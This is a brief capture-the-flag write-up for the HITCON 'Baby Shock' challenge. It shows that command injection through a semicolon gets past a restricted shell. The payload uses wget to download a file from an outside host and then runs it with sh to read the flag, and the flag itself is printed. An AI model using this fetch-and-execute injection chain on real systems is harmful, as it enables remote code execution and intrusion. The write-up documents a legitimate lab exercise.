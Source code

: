 # Baby Shock

踹一波發現可以用分號 `;`

Payload:

```
ls ; wget kaibro.tw
ls ; sh index.html
```

`/readflag`

=>

`hitcon{i_Am_s0_m155_s3e11sh0ck}`
